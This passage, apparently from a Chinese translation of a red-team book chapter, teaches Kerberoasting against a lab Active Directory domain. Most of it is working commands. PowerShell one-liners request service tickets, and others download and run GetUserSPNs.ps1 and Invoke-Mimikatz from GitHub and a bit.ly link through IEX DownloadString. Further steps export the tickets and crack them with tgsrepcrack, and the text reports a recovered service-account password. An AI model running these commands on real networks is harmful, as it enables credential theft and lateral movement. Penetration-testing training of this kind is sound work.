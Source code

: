 我们可以将单个用户的 SPN 作为目标，也可以将所有用户的 Kerberos 票据拉入用户的内存中：
- 针对单个用户：
  - powershell Add-Type -AssemblyName System.IdentityModel;New-Object
    System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList “HTTP/CSK-GITHUB.cyberspacekittens.local”
- 将所有用户票据拖到内存中
  - powershell Add-Type -AssemblyName System.IdentityModel;IEX (New-Object
    Net.WebClient).DownloadString(“ https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1 ”)
    | ForEach-Object {try{New-ObjectSystem.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}
- 当然，你也可以使用 powersploit 执行此操作：
  - https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/

![](../images/chapter_4/4-41.png)

如果成功的话，我们已经将一个或多个不同的 Kerberos 票证导入到受害者计算机的内存中。我们现在需要一种方法来提取票据。我们可以使用好工具 Mimikatz Kerberos 导出：
- powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2qx4kuH’); Invoke-Mimikatz -Command ’”““kerberos::list /export”””’

![](../images/chapter_4/4-42.png)

一旦我们导出这些票证，它们将仍会驻留在受害者的机器上。在我们开始破解它们之前，我们必须从它们的系统中下载它们。请记住，票据是用服务帐户的 NTLM 哈希加密的。所以，如果我们能猜到 NTLM 哈希，我们就可以读取票据，现在也知道服务帐户的密码。破解账户最简单的方法是使用一个名为 tgsrepcrack 的工具（JTR 和 Hashcat 也支持破解 Kerberoast，稍后我们将讨论）。使用 Kerberoast 破解票证：

- 使用 Kerberoast 来破解票据：
  - cd /opt/kerberoast
  - python tgsrepcrack.py [password wordlist ][kirbi ticketss - *.kirbi]

![](../images/chapter_4/4-43.png)

在这个例子中，服务帐户 csk-github 的密码是“p@ssw0rd!”

当然，Empire 有一个 PowerShell 模块为我们做所有需要做的事情。它位于 powershell/credentials/invoke_kerberoast 目录下（ https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ）。
